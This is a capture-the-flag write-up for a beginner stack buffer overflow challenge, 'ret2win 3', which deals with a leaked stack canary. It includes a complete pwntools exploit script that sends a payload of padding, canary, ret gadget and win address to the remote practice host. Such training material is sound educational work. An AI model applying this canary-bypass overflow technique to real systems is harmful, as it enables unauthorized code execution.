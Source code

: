 ```yaml
---
description: Binary Exploitation
---
```


# ret2win 3

> Salah satu mitigasi dari buffer overflow di stack adalah canary. Canary adalah 8 byte random yang diletakkan sebelum saved RBP. Jadi, kalau kita overwrite saved RIP menggunakan buffer overflow, canary pasti akan ikut berubah. Canary akan diperiksa oleh program setiap sebelum keluar fungsi dan kalau canary-nya berubah dari sebelumnya, berarti telah terjadi buffer overflow dan program akan dihentikan. Tapi, kalau kita tau canary-nya, kita tinggal masukin ke payload kita di offset yang sesuai.
>
> Author: **zran**

{% file src="../../.gitbook/assets/ret2win3.zip" %}

First time learning canaries, a simple canary challenge where the binary leaks the canary for you and leaves you to work to return to the win function. Simple buffer overflow by finding the offset to the canary and the EIP.

Start by finding the offset to EIP with cyclic patterns:

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Breakpoint set at the canary comparison</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption><p>Cyclic lookup</p></figcaption></figure>

After replacing the correct offset with canary, find the offset to EIP which was 8 bytes and insert a stack alignment gadget followed by the win function:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ret2win --host playground.tcp1p.team --port 19002
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ret2win')
context.terminal = ['tmux', 'splitw', '-h']

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'playground.tcp1p.team'
port = int(args.PORT or 19002)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

offset_eip = 120
ret = 0x000000000040101a
win = 0x0000000000401236

log.info(io.recvuntil(': '))
canary = int(io.recvline(), 16)
log.success(f"Canary Leak: {hex(canary)}")
log.info(io.clean())

payload = b'A' * 104
payload += p64(canary)
payload += b'A' * 8
payload += p64(ret)
payload += p64(win)

log.info(f"payload: {payload}")
io.sendline(payload)
log.info(io.clean())

io.interactive()
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>
